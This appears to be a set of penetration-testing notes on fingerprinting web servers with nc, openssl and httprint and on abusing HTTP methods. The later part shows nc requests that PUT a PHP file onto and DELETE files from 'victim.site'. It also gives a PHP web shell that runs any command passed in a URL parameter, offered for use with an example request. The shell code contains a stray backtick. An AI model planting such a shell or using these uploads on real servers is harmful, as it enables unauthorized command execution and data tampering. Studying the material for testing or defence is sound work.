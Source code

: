 Daemon proiding web application could be IIS, apache,nginx...

* * *

`nc <target address> 80`  
`HEAD / HTTP/1.0`  
&lt;space 1&gt;  
&lt;space 2&gt;

* * *

`openssl s_client -connect target .site:443`  
`HEAD / HTTP/1.0`  
&lt;space 1&gt;  
&lt;space 2&gt;

* * *

Use httprint fto use certificate based technique to identify web server  
`httprint -P0 -h <target hosts> -s <signature file>`  
`-P0` to avoid pinging the host.  
`-h` target address  
`s` signature file to use.  
Example: `httprint -P0 -h 1.2.3.4 -s /usr/share/httprint/signatures.txt`4

* * *

* * *

#### HTTP verbs

- GET
- POST
- HEAD
- PUT  
    `wc -m payload.php` \-\- 20 payload.php, if 20 is the size of the payload.  
    `nc victim.site 80`  
    `PUT /payload.php HTTP/1.0`  
    `Content-type: text/html`  
    `content-length:20`  
      
      
    `<?php phpinfo(); ?>`
- DELETE  
    `nc victim.site 80`  
    `DELETE /path/to/resource.txt HTTP/1.0`  
      
    
- OPTIONS  
    `nc victim.site 80`  
    `OPTIONS / HTTP/1.0` \- Will able to see methods allowed.

The below code is a powerfull php shell to run commands by OS shell.

```php
<?php
if (isset($_GET['cmd']))
{
    $cmd=$_GET['cmd'];
    echo '<pre>';
    $result=shell_exec($cmd);
 `   echo $result;
    echo '</pre>';
}
?>
```

Give request like victim.site/shell.php?cmd=ls
* * *